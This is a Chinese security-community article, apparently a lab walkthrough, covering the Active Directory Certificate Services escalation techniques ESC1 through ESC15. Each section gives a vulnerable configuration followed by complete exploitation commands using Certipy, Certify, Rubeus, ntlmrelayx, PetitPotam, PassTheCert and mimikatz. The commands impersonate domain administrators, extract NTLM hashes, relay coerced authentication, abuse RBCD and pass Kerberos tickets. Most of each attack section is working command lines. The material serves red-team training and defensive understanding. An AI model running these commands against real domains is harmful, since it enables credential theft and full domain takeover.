# ADCS攻击指北-权限提升-先知社区

> **来源**: https://xz.aliyun.com/news/17230  
> **文章ID**: 17230

---

# 背景

Active Directory 证书服务 (AD CS) 提供公钥基础结构 (PKI) 功能，该功能支持 Windows 域上的身份和其他安全功能（即文件加密、电子邮件加密和网络流量加密）。它可以为组织的内部使用创建、验证和撤销公钥证书。

根据 Microsoft 的说法，AD CS 是一个服务器角色，它允许构建公钥基础结构 (PKI) 并为组织提供公钥加密、数字证书和数字签名功能”。

AD CS Windows Server 角色是实施 PKI 解决方案。

AD CS 提供所有与 PKI 相关的组件作为角色服务。每个角色服务负责证书基础架构的特定部分，同时协同工作以形成完整的解决方案。

证书中包含的信息将一个主题身份与一个公共/私人密钥对结合起来。之后应用程序在操作时使用该密钥对作为该用户的身份证明。

证书申请流程大致过程：

1. 客户端产生密钥对
2. 客户端发送证书请求(CSR)给企业CA服务器
3. CA检查CSR中的内容，判断是否许可获得证书
4. CA通过许可，下发使用CA私钥签名的证书



PKI：公钥基础设施，实现证书的产生、管理、存储、分发和撤销等功能  
PKINIT：初始认证的公钥加密技术（可以在Kerberos认证的初始阶段中使用）

# 权限提升

## ESC1

### 配置

* 有权限去获取证书
* 能够登记为客户端身份验证或智能卡登录等
* CT\_FLAG\_ENROLLEE\_SUPPLIES\_SUBJECT开启



打开证书颁发机构



证书模板中，右键选择管理



在这里随便选择一个模板进行配置



常规中修改一下模板的名字



使用者名称这里要改成在请求中提供



扩展的应用策略中，需要有客户端身份验证/智能卡验证



安全中要有authenticated Users组或者domain users组的注册权限才行，配置完之后需要到回到证书颁发机构中的证书模板



在证书模板控制台设置好模板之后一定要在这里发布模板，不然是不能成功的！！



这里就成功发布了ECS1这个模板，接下来用Certipy来进行利用

```
certipy find -u user@domain.com -p xxxxx -dc-ip 192.168.3.135 -vulnerable //vulnerable 查看存在漏洞的模板
```

ca 是指定ca机构的名字就是上面的CA Name -upn是指定要模拟的用户

输入完之后会生成几个文件，默认会输出txt和json(可以导入BloodHound)





这里可以看到存在一个模板有漏洞，模板名字是ECS1，下面可以看到拥有注册权限的用户组包含的Authenticated Users组(所有用户)，接下来就是利用该模板申请一个证书

### 申请证书

```
certipy req -u user@domain.com -p xxx -dc-ip 192.168.3.135 -ca attack-DC001-CA -template ECS1 -upn administrator@domain.com -dns DC001.attack.com //-ca 是指定ca机构的名字就是上面的CA Name -upn是指定要模拟的用户 
```



这里就成功申请了一个UPN为administrator的证书，接下来可以将证书中的NTLM Hash提取出来

### 证书认证

```
certipy auth -pfx administrator_dc001.pfx -dc-ip 192.168.3.135
```



使用auth进行身份验证，验证的时候会问有哪种验证方式，直接选择默认的UPN即可，接着就会导出NTLM hash

​

## ESC2

### 配置

* 其他配置与ESC1一样
* 只有扩展中设置有所不同证书模板定义了 Any Purpose 类型的 EKU，Any Purpose 指证书可以用于任何目的



Certipy来搜索存在漏洞的模板





这里的Any Purpose必须为True，接着就需要去申请证书

### 漏洞利用

```
certipy req -u user@attack.com -p xxx -dc-ip 192.168.3.135 -ca attack-DC001-CA -template ECS2 -target 192.168.3.135
```



成功申请到证书之后需要用证书去申请高权限证书

```
certipy req -u user@attack.com -p xxx -dc-ip 192.168.3.135 -ca attack-DC001-CA -target 192.168.3.135 -template User -on-behalf-of 'attack\administrator' -pfx stu1.pfx  // 这里的teamplate不能是ECS2，需要是一个正常的模板。-on-behalf-of参数值必须是要attack\admin这种类型，不能是attack.com\admin
```



然后就可以用这个高权限证书去获取hash了

## ESC3

### 配置1

* 其他配置与ESC1一样
* 只有扩展中设置有所不同，证书模板定义了 证书申请代理的 EKU



### 配置2

* 其他配置与ESC1一样
* 发布要求修改如下



使用Certipy来查找带有漏洞的模板





EKU的参数为Certificate Request Agent为ESC3特征

### 配置一利用

利用方式和ECS2的方法是一样的

```
certipy req -u user@attack.com -p xxx -dc-ip 192.168.3.135 -ca attack-DC001-CA -template ECS3 -target 192.168.3.135
```



```
certipy req -u stu1@attack.com -p xxxx -dc-ip 192.168.3.135 -ca attack-DC001-CA -target 192.168.3.135 -template User -on-behalf-of 'attack\administrator' -pfx stu1.pfx
```



### 配置二利用

需要用到certify.exe

```
#查看所有已办法证书
Certify.exe find /ca:"CS2016.Lhc.local\Lhc-CS2016-CA" > 1.txt
#当前域用户申请以ESC3_2为模板的证书，格式为pem，需要转化为pfx
Certify.exe request /ca:"CS2016.Lhc.local\Lhc-CS2016-CA" /template:ESC3_2
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
#以当前域用户证书申请域管证书
Certify.exe request /ca:"CS2016.Lhc.local\Lhc-CS2016-CA" /template:ESC3_2 /onbehalfof:lhc\administrator /enrollcert:cert.pfx
#Rubeus.exe 
Rubeus.exe asktgt /user:lhc\administrator /certificate:cert.pfx
#票据转化
转化Rubeus的base64（kirbi）为ccache，导入票据再利用
环境问题暂时无法复现
```

## ESC4

### 配置

* 只修改一处安全组默认完全控制，拥有写入权限
* 工作站身份认证模板



需要有写入的权限，用Certipy来查看



### 漏洞利用

使用Certipy进行利用

```
certipy template -u stu1@attack.com -p xxx -dc-ip 192.168.3.135 -template ECS4 -save-old   //保存旧配置并修改模板
```



之后去查看修改之后的权限



### 申请修改后的模板

接着利用修改之后的模板去申请证书

```
certipy req -u stu1@attack.com -p xxx -dc-ip 192.168.3.135 -ca attack-DC001-CA -target 192.168.3.135 -template ESC4 -upn administrator@attack.com
```



### 模板恢复

最后将证书模板权限恢复回来

```
certipy template -u stu1@attack.com -p xxx -dc-ip 192.168.3.135 -template ESC4 -configuration ESC4.json
```





## ESC5

### 简介

该方法利用的前提是域之间相互信任且都搭建了AD CS服务器，然后使用LOCAL SYSTEM权限添加ESC1脆弱证书模板，并利用活动目录的同步特性将脆弱模板发布到林根域，最后可利用发布的脆弱模板申请企业管理员证书实现权限提升。

​

在子域通过ADSI查看ADCS的属性，可以看到当前连接到的是a.moon.lab子域的ldap，查看public key services发现信息是moon.lab根域的配置，通过同步的特性，在子域的ADCS上配置存有漏洞的模板，再去申请同步之后的证书来达到权限提升



### 配置

点击pks的属性查看权限，发现只有system和企业管理员有完全控制权，因此需要通过本地system权限去进行修改

```
psexec.exe /accepteula -s -i mmc.exe
```



需要先打开ADSI配置权限继承，需要设置一个这个对象及全部后代，后面需要用到



之后打开证书颁发模板，添加一个ESC1的证书



如果提示找不到目录之类的，就用ADSI修改一下权限



然后再去根域看，会发现刚刚创建的模板已经同步过去了



然后就去Enrollment Services中的Certificate Templates值中添加刚刚新建的模板(这里就需要上面修改system继承权限之后才能添加，否则是无法添加)



然后查看根域的证书发布发现ESC1已经发布了



### 漏洞利用

后面就是正常的利用

```
certipy req -u Zansan@moon.lab -p xxx -dc-ip 10.10.10.1 -ca moon-CERTSERVER-CA -template esc1 -upn administrator@moon.lab -target CERTSERUER.moon.lab -ns 10.10.10.1
```



这里失败用schannel的方法就行了

```
certipy auth -pfx administrator.pfx -domain moon.lab -dc-ip 10.10.10.1
```



## ESC6

### 配置

* 企业 CA 授予低权限用户请求权限（默认）；
* 模板中 CA 管理员审批未启用（默认）；
* 模板中不需要授权的签名（默认）；
* CA+EDITF\_ATTRIBUTESUBJECTALTNAME2

```
#开启EDITF_ATTRIBUTESUBJECTALTNAME2
certutil -setreg policy\EditFlags +EDITF_ATTRIBUTESUBJECTALTNAME2
#重启certsvc服务
net stop certsvc
net start certsvc
```



利用方式和ESC1相同，不同在于可以选择任意一个带有客户端身份认证的模板

用Certipy来探测



### 漏洞利用

显示存在ESC6漏洞，接下来直接申请一个自带的模板即可

```
certipy req -u stu1@attack.com -p xxx -dc-ip 192.168.3.135 -ca attack-DC001-CA -target 192.168.3.135 -template User -upn administrator@attack.com //直接申请一个User模板
```



关闭EDITF\_ATTRIBUTESUBJECTALTNAME2命令

```
certutil –setreg policy\EditFlags –EDITF_ATTRIBUTESUBJECTALTNAME2
```

## ESC7

### 配置

* 当用户或者所属组拥有管理CA权限
* 域普通用户所属组一般包括Domain Users、Authenticated Users  
  Authenticated Users



Domain Users



Certipy探测漏洞



### 漏洞利用

因为域内普通成员可以具有管理CA的权限，所以给用户添加一个管理证书的权限

```
certipy ca -u stu1@attack.com -p xxx -dc-ip 192.168.3.135 -ca attack-DC001-CA -target 192.168.3.135 -add-officer stu1 //-add-officer 添加管理证书权限
```





接着查看颁发证书

```
certipy ca -u stu1@attack.com -p xxx -dc-ip 192.168.3.135 -ca attack-DC001-CA -target 192.168.3.135 -list-templates //-list-templates 列出颁发的证书
```



如果SubCA模板没有启动，可以用以下命令：

```
certipy ca -u stu1@attack.com -p xxx -dc-ip 192.168.3.135 -ca attack-DC001-CA -target 192.168.3.135 -enable-template SubCA //-enable-template启用证书模板
```



接着请求这个SubCA模板，会请求失败，这里主要是要记录id

```
certipy req -u stu1@attack.com -p xxx -dc-ip 192.168.3.135 -ca attack-DC001-CA -target 192.168.3.135 -template SubCA -upn administrator@attack.com
```



### 检索颁发证书

通过管理CA和管理证书，可以用issue-request发出失败的证书请求(这一步就需要上面的id)

```
certipy ca -u stu1@attack.com -p xxx -dc-ip 192.168.3.135 -ca attack-DC001-CA -target 192.168.3.135 -issue-request 36  
```



接着检索已颁发的证书

```
certipy req -u stu1@attack.com -p xxx -dc-ip 192.168.3.13
5 -ca attack-DC001-CA -target 192.168.3.135 -retrieve 36
```



## ESC8

ADCS网页认证地址

```
http://adcs/certsrv/certfnsh.asp
```

### 查看CA机器

```
certutil -config - -ping //会弹框
```



命令行显示

```
certutil -dump -v 
```



### ntlmrelayx.py将CA设置为中继目标

```
ntlmrelayx.py -t http://192.168.3.133/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```



### 强制认证

结合场景，这里还可以使用printerbug、PetitPotam、DFSCoerce等进行强制认证

```
python3 PetitPotam.py -u 'xxx' -p 'xxx' -d 'redteam.com' 192.168.3.129 192.168.3.134 //第一个ip是攻击机，第二个ip是辅域(主域控不能中继自身,MS08068)
```



攻击之后去看监听，会发现返回了一个证书(base64格式)



### 注入票据

```
#Rubeus.exe
Rubeus.exe asktgt /user:DC02$ /certificate:certificatebase64body /ptt
#gettgtpkinit.py
python3 gettgtpkinit.py redteam.com/DC02$ -pfx-base64 MIIR...（获取的证书）  kirbi.ccache
#导入票据
export KRB5CCNAME=kirbi.ccache
```



rubeus提示错误，用gettgtpkinit.py试一下



根据 Microsoft 官方文档 “[4771(F): Kerberos pre-authentication failed](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4771)” 的描述，该报错显示 KDC 不支持 PADATA 类型（预认证数据）, Kerberos 预身份验证失败。

每次密钥分发中心未能发出 Kerberos 票证授予票证（TGT）时，都会生成此事件。当域控制器没有安装用于智能卡身份验证的证书（例如，使用 “域控制器” 或 “域控制器身份验证” 模板）、用户密码已过期或提供了错误的密码时，可能会出现此问题。

​

#### 另一环境



请求到了证书之后用gettgtpkinit.py来申请



成功获取到ccache文件

### Pass The Certificate(Schannel)

先用Certipy将前面的证书导出key和crt

```
cat 1.txt |base64 -d > 1.pfx //base64证书转换成pfx文件
certipy cert -pfx 1.pfx -nokey -out crt.crt
certipy cert -pfx 1.pfx -nocert -out key.key 
```



接着用passthecert.py来设置RBCD进行攻击

#### RBCD

```
python3 PassTheCert.py -action add_computer -crt crt.crt -key key.key -domain redteam.com -dc-ip 192.168.3.133 -computer-name cert$ -computer-pass 123456 //创建机器账户
```



创建好之后需要设置RBCD属性

```
python3 PassTheCert.py -action write_rbcd -crt crt.crt -key key.key -domain redteam.com -dc-ip 192.168.3.133 -delegate-from cert$ -delegate-to DC02$ //设置cert$到DC02$的RBCD

python3 PassTheCert.py -action read_rbcd -crt crt.crt -key key.key -domain redteam.com -dc-ip 192.168.3.133 -delegate-from cert$ -delegate-to DC02$//查询RBCD
```



可以看到DC02$的msDS-AllowedToActOnBehalfOfOtherIdentity属性中包含了cert$账户，接下来就是用getST.py获得票据

#### GetST

```
python3 getST.py -spn cifs/DC02.redteam.com -impersonate administrator redteam.com/cert\$:123456 -dc-ip 192.168.3.134
```



随后导入票据进行横向移动

```
export KRB5CCNAME=administrator.ccache //导入票据
python3 wmiexec.py redteam.com\administrator@DC02.redteam.com -no-pass -dc-ip 192.168.3.134
```



环境有点问题，移动失败，这里将ccache转换成kirbi再用mimikatz or rubeus进行票据传递

#### PTT

```
python3 ticketConverter.py administrator.ccache administrator.kirbi  // ccache转换成kirbi 反过来就是kirbi转换成ccache
```



接着用mimikatz进行PTT

```
privelege::debug
kerberos::ptt administrator.ccache
```





## ESC9

### 配置

```
1. 该注册表项未被设置为2（在kb5014754补丁之前该键不存在，但值为0）：HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc\StrongCertificateBindingEnforcement
2. 证书中msPKI-EnrollmentFlag的值包含CT_FLAG_NO_SECURITY_EXTENSION标志
3. 证书模板支持身份验证的EKU
4. 被控账户a对任意账户b有GenericWrite权限
```

注册表默认是不需要设置，先设置一个证书模板



需要注意的是在使用者名称这里，只能选择UPN，其他不用勾选



注册也要给上，然后接着打开ADSI编辑器去设置



需要改成配置然后进去打开services->public keys services->certificate templates



找到刚刚设置的ESC9的模板然后设置属性



将这里的msPKI-Enrollment-Flag设置为524288，接着要去设置对用户的ACL



ADSI打开这个用户，属性设置



直接在安全设置中添加一个账户对他的全部控制，接着就用certipy去探测，下面就说明是配置成了



### 漏洞利用

通过设置影子账户来恢复hash

```
certipy shadow auto -username zhangjiandong@redteam.com -p xxx -account test -ns 192.168.3.133 -dc-ip 192.168.3.133
```



获得到test的hash之后需要修改test账户的UPN属性为administrator(注意，这里将upn更新为administrator并不违反upn的唯一性约束，upn通常采用电子邮件地址的格式，默认情况下ad域会给用户分配一个与其samaccountname相同的upn，如果你的账户名为test，那么默认的upn则是test@redteam.com)

```
certipy account update -u zhangjiandong@redteam.com -p xxx -target DC01.redteam.com -user test -upn administrator
```



更新好UPN之后就去申请证书

```
certipy req -u test@redteam.com -hashes NTLMhash -ca redteam-DC01-CA  -target DC01.redteam.com  -dc-ip 192.168.3.133 -template ESC9
```



这里就成功获取到了一个administrator的证书了，接着需要将test的UPN给恢复回去

```
certipy account update -u zhangjiandong@redteam.com -p xxx -target dc01.redteam.com -user test -upn  test@redteam.com
```



最后再去申请前面获取的administrator的证书，由于上面获取证书的过程并没有给域，因此需要加个参数指定一下域

```
certipy auth -pfx administrator.pfx -dc-ip 192.168.3.133 -domain redteam.com
```



## ESC10

### 两种场景

ESC10有2个利用场景，分别是不同的配置

1、当StrongCertificateBindingEnforcement被设置为0的时候，所有模板都会忽略szOID\_NTDS\_CA\_SECURITY\_EXT，所以其利用步骤与esc9一致，只不过在申请证书时可以随意选择一个支持客户端身份验证eku的证书模板。

2、阅读白皮书，我们知道AD域默认支持两种协议进行证书身份验证：Kerberos和Schannel，第二个利用场景我们关注的是schannel。在kb5014754补丁后的环境中，微软通过向注册表添加了新的注册表项，关于schannel的子项位置在HKEY\_LOCAL\_MACHINE\System\CurrentControlSet\Control\SecurityProviders\Schannel:CertificateMappingMethods，该值控制我们使用证书认证时的映射方法，并提出了证书强弱用户映射的概念。在kb5014754之前，该项的默认值为0x1F，在补丁之后其值默认为0x18，当其值置为0x18时，只支持s4u2slef证书映射及显式的s4u2self证书映射，这是两种更安全的强用户身份映射方法，但这可能会引起域内的一些认证问题，微软也建议将其置为0x1F，当其值为默认时，它支持3种弱用户映射的方法，其中正好包含使用upn进行弱映射。

### 第一种

这个和ESC9利用是一样的，只不过不同的是只需要有一个完全控制的账户就可以，不需要额外设置一个模板，请求一个正常的模板即可

```
certipy account update -u zhangjiandong@redteam.com -p xxx -target DC01.redteam.com -user test -upn administrator
```



改好之后直接申请，不需要指定特定的模板

```
certipy req -u test@redteam.com -hashes NTLMhash -ca redteam-DC01-CA  -target DC01.redteam.com  -dc-ip 192.168.3.133
```



### 第二种

需要先配置一下注册表，要新建一个CertificateMappingMethods的DWORD项，设置值为4(UPN)

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc\StrongCertificateBindingEnforcement
```



利用和前面基本一样，有2个要改一下的，第一个是修改的UPN

```
certipy account update -u zhangjiandong@redteam.com -p xxx -target DC01.redteam.com -user test -upn 'DC01$@redteam.com'
```



然后去申请一个证书

```
certipy req -u test@redteam.com -hashes NTLMhash -ca redteam-DC01-CA  -target DC01.redteam.com  -dc-ip 192.168.3.133
```



接着再将UPN修改回来

```
certipy account update -u zhangjiandong@redteam.com -p xxx -target dc01.redteam.com -user test -upn  test@redteam.com
```



最后用证书请求LDAP

```
certipy auth -pfx dc01.pfx -dc-ip 192.168.3.133 -ldap-shell -debug          
```



然后可以设置一个RBCD进行后续攻击





## ESC11

### 配置

需要在域控上将强制加密关闭

```
certutil -setreg CA\InterfaceFlags -IF_ENFORCEENCRYPTICERTREQUEST
net stop certsvc & net start certsvc
```



查找发现存在ESC11



### 漏洞利用

通过ntlmrealy来中继利用

```
普通impacket不行，需要用这个impacket
https://github.com/sploutchy/impacket

ntlmrelayx.py -t rpc://192.168.3.135 -rpc-mode ICPR -icpr-ca-name attack-DC001-CA -smb2support --template DomainControlle//需要指定一个模板，不然会提示不允许当前用户注册此类模板(默认是计算机模板)
```



之后随便使用打印机或者PetitPotam都行



## ESC13

### 配置

创建一个组，需要是通用组，且组内不能有任何成员



接着再创建一个普通的用户，不需要添加到任何组，保留默认域成员组就行



接着去配置证书模板，用工作站模板进行复制，使用名次要选UPN去掉DNS



在扩展颁发策略里面新建一个策略



创建时候默认即可



还需要给前面新建的用户添加一下注册权限



接着去设置一下组权限给一个DCSYNC用于演示



在打开到public key services里面的OID，找到前面新建的策略

然后修改msDS-OIDToGroupLink属性为我们添加的组



### 漏洞利用

用<https://github.com/sploutchy/Certipy/tree/main> 的certipy来探测，能探测出ESC13



接着去申请证书

```
certipy req -u test@redteam.com -p xxx -dc-ip 192.168.3.133 -template ESC13 -ca redteam-DC01-CA  -target DC01.redteam.com
```



注册到之后去获取一下票据



接着导入票据成功导出hash



​

## ESC15

### 配置

利用条件：

1. 用户注册
2. schema版本为1(默认)
3. subjectName为请求中提供(默认)

​



在证书模板处，查看Web Server模板



添加注册权限，只能修改Web Server，不能添加，添加schema 版本就是2

### 利用

和ESC1方法差不多，只不过多了个添加客户端认证

```
certipy req -dc-ip 10.10.10.11 -ca ludus-DC01-2022-CA-1 -target-ip 10.10.10.11 -u test@ludus.domain -p 'test' -template WebServer -upn domainadmin@ludus.domain --application-policies 'Client Authentication'
```



紧接着去认证



会提示认证失败，因为这个证书不支持kerberos协议，所以就需要用ldap方式



​

微信公众号：赛博海妖
